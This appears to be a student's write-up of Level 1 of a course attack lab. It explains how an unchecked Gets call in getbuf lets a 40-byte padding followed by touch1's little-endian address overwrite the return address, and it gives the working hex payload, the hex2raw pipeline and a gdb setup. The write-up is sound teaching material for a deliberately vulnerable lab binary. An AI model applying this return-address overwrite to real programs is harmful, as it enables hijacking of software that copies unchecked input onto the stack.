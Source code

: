 * Level 1
You need to redirect the program to execute a procedure that already
exists.

~getbuf~ (the function that introduces the vulnerability by using
~get~) is called by ~test~:
#+begin_src c
  void test()
  {
      int val;
      val = getbuf();
      printf("No exploit. Getbuf returned 0x%x\n", val);
  }
#+end_src

The task consists in getting ~ctarget~ to execute ~touch1~ when
~getbuf~ executes its return statement (rather than returning to
~test~).

#+begin_src c
  void touch1()
  {
      vlevel = 1; /* Part of validation protocol */
      printf("Touch1!: You called touch1()\n");
      validate(1);
      exit(0);
  }
#+end_src

This is the address of touch1: ~00000000004017c0~.  Without looking at
the code further, I've started to add bytes of 0s in front of that
address and tried to whether it worked. After five attempts it
worked. (I've also sorted the bytes so that they are in little
endian.)

Solution:
#+begin_src
echo "00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
c0 17 40 00 00 00 00 00" | ./hex2raw | ./ctarget -q
#+end_src

(
to run gdb:
- dump the raw data into a file:
  #+begin_src shell
    echo "00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    c0 17 40 00 00 00 00 00" | ./hex2raw > raw_input
  #+end_src
- xecute ~gdb ./ctarget~
- set your initial breakpoints
- execute the command ~run -q < raw_input~
(See
https://stackoverflow.com/questions/455544/how-to-load-program-reading-stdin-and-taking-parameters-in-gdb)
)

Explanation: this is the assembly code for ~getbuf~:

#+begin_src asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
#+end_src

As soon as execution enters ~getbuf~ (before executing ~sub
$0x28,%rsp~), ~%rsp~ points to --- that is, at the top of the stack
there is --- the address of the instruction which must be executed
when ~getbuf~ terminates (which happens to be ~0x0000000000401976~).
That is the value we need to change.

We can see that the first thing ~getbuf~ does is to allocate 40 bytes
in its stack frame (by decreasing the value of ~%rsp~ by 40).

Then ~gets~ is called. The first argument passed to ~gets~ is the
value of ~%rsp~. We can then reasonably guess that ~gets~ is going to
write the input it receives onto the stack, starting from its top
(lowest address).

Now if we pass to ~gets~ 40 bytes of zeros (or whatever values) + an
address of 8 bytes, then we should fill the whole 40 bytes allocated
by ~gets~ and overwrite ~0x0000000000401976~ with our new address.
